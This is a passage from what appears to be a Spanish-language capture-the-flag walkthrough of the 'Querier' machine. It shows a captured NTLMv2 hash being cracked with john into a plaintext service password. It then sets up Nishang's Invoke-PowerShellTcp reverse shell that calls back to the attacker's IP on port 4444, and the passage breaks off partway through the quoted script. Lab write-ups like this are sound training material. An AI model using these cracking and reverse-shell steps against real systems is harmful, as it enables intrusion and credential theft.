 El hash `NTLMV2` lo debemos `meter` en un `archivo`

```
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:6f7d92da5c497d4dc478f2d9820a5467:0101000000000000809b28d720f6da01714567ea86b566a700000000010010005400710052004700540069006a004500030010005400710052004700540069006a0045000200100077007a006e0064006d006200410051000400100077007a006e0064006d0062004100510007000800809b28d720f6da01060004000200000008003000300000000000000000000000003000008cb280c24fe8618b3d55ffd1d66821547a1a40f659307e2a2169e553d92b53100a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003300000000000000000000000000
```

`Crackeamos` el `hash` con `john` y `obtenemos` unas `credenciales` válidas `mssql-svc:corporate568`

```
# john -w:rockyou.txt hash          
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)     
1g 0:00:00:03 DONE (2024-08-24 14:30) 0.2610g/s 2339Kp/s 2339Kc/s 2339KC/s correforenz..coreyny11
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Nos `descargamos` [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), una vez descargado el script vamos a copiar `Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444` que encontramos en la parte de `.EXAMPLE` al final del script con la dirección `IP` de nuestra máquina y con el `puerto` por el que nos mandará la `conexión`

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
```